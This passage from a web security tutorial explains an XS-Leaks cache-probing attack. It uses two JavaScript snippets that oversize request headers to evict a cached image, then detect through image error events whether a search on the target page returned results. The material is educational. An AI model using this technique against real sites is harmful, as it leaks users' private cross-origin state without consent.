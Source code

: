 ## Cache Probing with Error Events

Although determining whether a resource is in the cache based on time is an effective method, it can sometimes be affected by network uncertainties. For example, if the network is extremely fast, it may be difficult to determine which resource is cached when every resource appears to have a response time of 1ms or 2ms.

Therefore, there is another attack technique that combines the method of using `<img>` to detect whether an image is loaded, as mentioned earlier, with cache probing. Instead of relying on time, it relies on error events to determine if the resource is in the cache.

Let's assume there is a page called `https://app.huli.tw/search?q=abc`, which displays different content based on the search result. If something is found, the image `https://app.huli.tw/found.png` will appear; otherwise, the image will not be present.

First, as in the previous step, we need to clear the cache. There are various methods to choose from, one of which is similar to the cookie bomb method mentioned earlier, where we force the server to return an error by sending a large request, thus clearing the cache in the browser:

``` js
// code is modified from https://github.com/xsleaks/xsleaks/wiki/Browser-Side-Channels#cache-and-error-events
let url = 'https://app.huli.tw/found.png';

// this adds a lot characters to the url to make request header huge
history.replaceState(1,1,Array(16e3));

// send request
await fetch(url, {cache: 'reload', mode: 'no-cors'});
```

The second step is to load the target website `https://app.huli.tw/search?q=abc`. At this point, the page will be displayed based on the search result. As mentioned earlier, if something is found, the image `https://app.huli.tw/found.png` will appear and be stored in the browser's cache.

The final step is to make the URL very long and then load the image again:

``` js
// code is modified from https://github.com/xsleaks/xsleaks/wiki/Browser-Side-Channels#cache-and-error-events
let url = 'https://app.huli.tw/found.png';

history.replaceState(1,1,Array(16e3));
let img = new Image();
img.src = url;
try {
  await new Promise((r, e)=>{img.onerror=e;img.onload=r;});
  alert('Resource was cached'); // Otherwise it would have errored out
} catch(e) {
  alert('Resource was not cached'); // Otherwise it would have loaded
}
```

If the image is not in the cache, the browser will send a request to fetch it. This will encounter the same situation as in the first step, where the server returns an error due to the header being too long, triggering the `onerror` event.
